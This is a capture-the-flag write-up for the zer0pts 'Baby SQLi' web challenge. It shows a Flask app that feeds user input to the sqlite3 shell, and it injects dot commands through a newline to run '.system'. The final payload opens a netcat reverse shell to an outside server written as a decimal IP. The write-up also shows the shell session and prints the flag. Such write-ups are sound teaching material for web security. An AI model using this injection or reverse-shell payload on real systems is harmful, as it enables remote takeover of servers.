 # Baby SQLi

**Category**: Web \
**Points**: 170 (30 solves) \
**Author**: ptr-yudai

## Challenge

Just login as admin. http://web.ctf.zer0pts.com:8004 \
Attachments: `baby_sqli.tar.gz`

## Solution

Despite being called Baby SQLi, this challenge was very hard for me.

Here's the challenge:
```python
import flask
import os
import re
import hashlib
import subprocess

app = flask.Flask(__name__)
app.secret_key = os.urandom(32)

def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result

def sqlite3_escape(s):
    return re.sub(r'([^_\.\sa-zA-Z0-9])', r'\\\1', s)

@app.route('/')
def home():
    msg = ''
    if 'msg' in flask.session:
        msg = flask.session['msg']
        del flask.session['msg']
    if 'name' in flask.session:
        return flask.render_template('index.html', name=flask.session['name'])
    else:
        return flask.render_template('login.html', msg=msg)

@app.route('/login', methods=['post'])
def auth():
    username = flask.request.form.get('username', default='', type=str)
    password = flask.request.form.get('password', default='', type=str)
    if len(username) > 32 or len(password) > 32:
        flask.session['msg'] = 'Too long username or password'
        return flask.redirect(flask.url_for('home'))

    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    if result:
        flask.session['name'] = username
    else:
        flask.session['msg'] = 'Invalid Credential'
    return flask.redirect(flask.url_for('home'))

if __name__ == '__main__':
    app.run(
        host='0.0.0.0',
        port=8888,
        debug=False,
        threaded=True
    )
```

The `sqlite3_escape()` function will add a backslash to any non-alphanumeric
character, excluding `.` (which will be useful later).

The issue here is that in SQLite, quotes are escaped by doubling them up rather
than using a backslash.
```
sqlite> SELECT "I ""like"" beans";
I "like" beans
sqlite> SELECT "I \"like\" beans";
Error: unrecognized token: "\"
```

Ok, let's try to inject an `OR ""=""` to make it return true.
```python
import requests

url = "http://localhost:8004"
username = '" OR ""='
assert len(username) <= 32
data = {"username": username, "password": "hi"}
res = requests.post(f"{url}/login", data)
print(res.text)
```

Turns out it's not that simple. Our SQL query ends up looking like this:
```
SELECT * FROM users WHERE username="\" OR \"\"\=" AND password="8f434346648f6b96df89dda901c5176b10a6d83961dd3c1ac88b59b2dc327aa4";

Error: near line 1: unrecognized token: "\\"\n
```

Though we can escape the quotes, the backslashes always result in invalid
syntax, which causes SQL to throw an error. I was stuck here for a while until I
looked more closely at this:

```python
p = subprocess.Popen(['sqlite3', 'database.db'],
                     stdin=subprocess.PIPE,
                     stdout=subprocess.PIPE,
                     stderr=subprocess.PIPE)
```

Now why the heck would they do that instead of using the `sqlite3` module? Then
I realized that since our output goes into the `sqlite3` command line shell, we
can inject dot commands like `.dump`, `.print`, and crucially, `.system`.

Let's try it:
```python
username = '";\n.system id\n'
```

It works! On my local setup, I printed the value of `o` to see this:
```
babysqli_1  | output: uid=1000(app) gid=1000(app)
```

With some trial and error, I found that I can also use special characters like
(`-`, `,`, and `|`) because the `sqlite3` command shell doesn't care about
backslashes.

But there's another catch:
```python
p = subprocess.Popen(['sqlite3', 'database.db'],
                     stdin=subprocess.PIPE,
                     stdout=subprocess.PIPE,
                     stderr=subprocess.PIPE)
o, e = p.communicate(sql.encode())
if e:
    raise Exception(e)
```

If `stderr` contains anything, then an exception will be thrown and it won't let us
log in. The only way around this is to spawn a reverse shell like this:
```
nc $RHOST $RPORT -e sh
```

Let's try it:
```python
username = '";\n.system nc 34.67.42.222 6666 -e sh\n'
```

But this doesn't work because `username` is now 38 characters and the max is 32.
We can use a single digit port to bring us down to 35 characters. What else can
we shorten? Then I remembered that I can use the IP in
[decimal format](https://www.ipaddressguide.com/ip). So `34.67.42.222` becomes `574827230`, and our payload is now exactly 32 characters!

Final script:
```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.system nc 574827230 1 -e sh\n'
assert len(username) <= 32
data = {"username": username, "password": "hi"}
res = requests.post(f"{url}/login", data)
print(res.text)
```

On my server:
```
plushie@instance-1:~$ sudo -s
root@instance-1:/home/plushie# nc -lvnp 1
listening on [any] 1 ...
connect to [10.128.0.2] from (UNKNOWN) [165.227.180.221] 45301
ls
database.db
server.py
templates
cat templates/index.html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Welcome</title>
    </head>

    <body>
        <h1>Welcome, {{name}}!</h1>
        {% if name == 'admin' %}
        <p>zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}</p>
        {% else %}
        <p>No flag for you :(</p>
        {% endif %}
    </body>
</html>
```
